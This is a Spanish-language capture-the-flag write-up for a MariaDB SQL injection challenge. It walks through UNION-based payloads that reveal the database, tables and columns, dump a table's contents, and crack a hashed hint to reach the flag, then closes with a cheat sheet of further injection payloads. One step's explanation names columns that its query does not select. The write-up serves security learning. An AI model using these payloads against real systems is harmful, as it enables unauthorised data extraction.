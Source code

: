 ## Search Member Form Injection

### 1. Mostar nombre de la base de datos actual

Este comando muestra la base de datos actual que se está utilizando.

```
1 UNION SELECT database(), NULL --
```

- ```database()```: Función MariaDB que devuelve el nombre de la base de datos actual.
- ```NULL```: Se selecciona un valor nulo para igualar el número de columnas de la consulta original, en este caso la informacion la va a dar en el apartado "Title" y el NULL es para el apartado "Url".

### 2. Listar todas las tablas de la base de datos actual

Este comando devuelve una lista de todas las tablas en la base de datos actual a la que se ha conectado el atacante.

```
1 UNION SELECT table_name, NULL FROM information_schema.tables WHERE table_schema = database() --
```

- ```1```: Selección de la primera columna de la consulta (en este caso, el número 1 es utilizado para igualar el número de columnas en la consulta original, se necesita que se devuelva la imagen número 1 y la siguiente consulta con UNION).

- ```UNION```: Operador SQL utilizado para combinar los resultados de múltiples consultas.
- ```SELECT``` table_name, NULL: El atacante está seleccionando el nombre de las tablas (table_name) y un valor nulo en la segunda columna. El valor nulo es necesario para igualar el número de columnas con la consulta original.
- ```FROM``` information_schema.tables: El information_schema es una base de datos especial en MariaDB que contiene información sobre las bases de datos, tablas, columnas, etc. tables es una vista que contiene los nombres de todas las tablas de la base de datos.
- ```--```: Comentario para ocultar el resto de la consulta original (opcional).

### 3. Listar las columnas de una tabla en la base de datos actual
Este comando muestra las columnas de una tabla en la base de datos actual.

```
1 UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name = CHAR(108, 105, 115, 116, 95, 105, 109, 97, 103, 101, 115) --
```

- ```CHAR(108, 105, 115, 116, 95, 105, 109, 97, 103, 101, 115)```: Este comando convierte los valores numéricos a caracteres ASCII, lo que da como resultado 'list_images'. Este es el nombre de la tabla de la que se desea obtener las columnas.

- ```FROM information_schema.columns```: Esta vista contiene información sobre las columnas de las tablas.
- ```WHERE table_name = 'list_images'```: Filtra las columnas de la tabla list_images.

### 4. Mostrar contenido de una columna de una tabla en la base de datos actual
Este comando devuelve el contenido de una columna específica, en este caso, de la tabla list_images en la base de datos actual.

```1 UNION SELECT title, comment FROM list_images --```

- ```first_name```: El atacante está solicitando el contenido de la columna first_name de la tabla list_images.
- ```last_name```: El atacante está solicitando el contenido de la columna last_name de la tabla list_images.
- ```FROM list_images```: Especifica la tabla list_images de la base de datos actual.

Si utilizamos este comando vemos todos los nombres de los usuarios y vemos que uno tiene el nombre "Hack me ?" y el comentario ```If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46```, que nos da las instrucciones para conseguir la flag.

Si probamos a desencriptarlo queda como ```albatroz```, que ya está en minúsculas así que lo encriptamos con algoritmo de hash SH256, resultando finalmente en la flag que buscamos.

#### ```f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188```













## Comandos útiles para injeccion SQL

### Listar tablas de una base de datos específica
Este comando muestra todas las tablas en una base de datos específica, en este caso, la base de datos llamada Member_Sql_Injection.

```
1 UNION SELECT table_name, NULL FROM information_schema.tables WHERE table_schema = CHAR(77, 101, 109, 98, 101, 114, 95, 83, 113, 108, 95, 73, 110, 106, 101, 99, 116, 105, 111, 110) --
```

- ```CHAR(77, 101, 109, 98, 101, 114, 95, 83, 113, 108, 95, 73, 110, 106, 101, 99, 116, 105, 111, 110)```: Esta función CHAR() convierte una secuencia de valores numéricos en caracteres ASCII. En este caso, se traduce a 'Member_Sql_Injection'.
- ```WHERE table_schema = 'Member_Sql_Injection'```: Filtra las tablas de la base de datos Member_Sql_Injection.

### Listar todas las bases de datos

Este comando muestra una lista de todas las bases de datos disponibles en el servidor MariaDB.

```
1 UNION SELECT schema_name, NULL FROM information_schema.schemata --
```

- ```schema_name```: Devuelve el nombre de cada base de datos.
- ```FROM information_schema.schemata```: El information_schema.schemata es una vista que contiene información sobre todas las bases de datos en el servidor MariaDB.

### Listar todas las tablas de todas las bases de datos

Este comando de inyección SQL permite listar todas las tablas en todas las bases de datos presentes en el servidor. Se utiliza accediendo a la tabla ```information_schema.tables```, que almacena metadatos sobre todas las tablas del sistema.

```
1 UNION SELECT table_name, NULL FROM information_schema.tables --
```

- ```table_name```: Especifica que queremos obtener el nombre de las tablas.

- ```information_schema.tables```: Es una tabla del esquema de sistema que contiene metadatos de todas las tablas disponibles en el servidor. Incluye tablas de todas las bases de datos.

### Listar las columnas de una tabla en una base de datos específica
Este comando muestra las columnas de una tabla de una base de datos específica. En este caso, la base de datos es Member_Sql_Injection y la tabla es users.

```
1 UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name = 'users' AND table_schema = 'Member_Sql_Injection' --
```

- ```WHERE table_name = 'users' AND table_schema = 'Member_Sql_Injection'```: Filtra las columnas de la tabla users en la base de datos Member_Sql_Injection.

### Mostrar contenido de una columna de una tabla en una base de datos específica
Este comando muestra el contenido de la columna username de la tabla users en la base de datos Member_Sql_Injection.

```
1 UNION SELECT first_name, NULL FROM Member_Sql_Injection.users -- 
```

- ```Member_Sql_Injection.users```: Especifica la base de datos Member_Sql_Injection y la tabla users.

- ```first_name```: Se selecciona el contenido de la columna first_name.
